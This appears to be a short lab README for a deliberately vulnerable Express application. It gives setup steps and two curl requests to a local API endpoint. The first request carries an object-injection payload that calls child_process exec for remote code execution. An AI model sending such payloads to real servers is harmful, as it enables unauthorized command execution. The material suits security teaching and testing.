 # Express-object-injection

## Step 0

* Install nodejs

* Install express

```console
$ npm install
```
* Start application

```console
$ node index.js
```

## Step 1

Make malicious request to perform Remote Code Execution

```console
$ curl --request POST http://localhost:3000/api/user --data "['constructor', 'require("child_process").exec(arguments[0],console.log)']"
$ curl --request POST http://localhost:3000/api/user --data "['anyVal', 'date']"
```
